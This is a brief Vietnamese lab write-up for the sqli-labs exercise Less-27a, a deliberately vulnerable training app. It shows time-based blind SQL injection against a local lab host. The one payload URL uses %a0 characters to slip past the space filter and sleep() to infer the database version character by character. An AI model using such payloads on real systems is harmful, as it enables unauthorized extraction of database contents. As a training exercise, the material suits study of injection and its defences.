


# Less 27a

Bài này giống với [Less 27](Less-27.md) nhưng ở bài này không trả về lỗi nên ta không thể show các thông tin thông qua lỗi trả về. Nhưng tôi thử thì thấy có thể khai thác được thông qua time based



Dựa vào đây ta sử dụng điều kiện trong `if` để đoán các thông tin trong DB

Version của DB

```
http://192.168.84.233/sqli-labs/Less-27a/?id=1%22%a0and%a0if(substr((select%a0@@version),1,1)=%275%27,sleep(10),false)%a0and%a0%221%22=%221
```



Tương tự ta cứ làm như vậy lần lượt để show ra version đầy đủ của DB cũng như các thông tin khác trong DB.

Thay vì làm thủ công ta cũng có thể sử dụng script như những bài trước.